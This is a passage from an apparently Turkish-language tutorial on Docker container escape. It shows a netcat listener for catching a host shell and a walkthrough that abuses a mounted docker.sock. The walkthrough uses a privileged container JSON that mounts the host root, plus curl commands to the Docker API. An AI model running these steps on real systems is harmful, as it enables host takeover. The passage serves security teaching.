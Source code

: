Bunları yaptıktan sonra konteyner içinde `nc -lvnp 4444` gibi dinlemeye alırsak host tekrardan `docker exec id herhangi-komut` çalıştırdığında konteyner'a host shell'i gelmiş olacaktır.

### 1.4 Weak Deployment

Bu başlık altında kullanıcı tarafından oluşan zafiyetlere örnek vereceğiz.

#### Mounted Docker Socket

**Docker Socket**: Docker konteyner’larda kullanıcı modu ve kernel modu arasında iletişimi sağlar.

**Zafiyetli Makina**: `docker run -it -v /var/run/docker.sock:/var/run/docker.sock exposedsocket`

Buradaki sıkıntı host'un docker.sock dosyası konteyner içine eklenmiş yani konteyner içindekiler bu docker.sock u kullanarak docker ile etkileşime geçebilir.

#### Exploit

Bu sıkıntıyı exploit etmek için `curl` ve `socat` tool'larını kullanacağız. Ilk olarak `ls /var/run/` yazarak gerçekten **docker.sock** dosyası var mı yok mu bakalım.

Şimdi bu exploitte amacımız kendi konteyner'ımızdan çıkıp kendimiz için yüksek yetkide başka konteyner açmak ve oraya geçmektir. Ilk olarak zafiyetli konteyner oluşturmak için bir json yazalım. Bu json ile yeni konteyner'ı oluşturacağız.

Bu alttaki makine **--privileged** ile başlatılmış ve görüldüğü üzere host'un dosyaları konteyner içine eklenmiş. Aslında direkt bu makineye geçtiğimizde host dosyalarına erişebildiğimiz için direkt _escape_ işlemini tamamlamış oluyoruz.

```json
{
  "Image": "ubuntu",
  "Cmd": ["/bin/sh", "-c", "apt update && apt install -y python3 && /bin/sh"],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "HostConfig": {
    "Privileged": true,
    "PidMode": "host",
    "Mounts": [
      {
        "Type": "bind",
        "Source": "/",
        "Target": "/host"
      }
    ]
  }
}
```

`curl -XGET --unix-socket /var/run/docker.sock http://localhost/containers/json`: Komutu ile hostta çalışan bütün konteyner'ları listeleyebiliyoruz. Burada **--unix-socket** 'e kullanmasını istediğimiz socket'i veriyoruz.

`curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create`: Komutu ile üstte yazdığımız json'u kullanarak zafiyetli konteyner'ı oluşturuyoruz. Alttaki gibi bir çıktı alacaksınız. Burada ilk Id kısmı işimize yaracaktır.
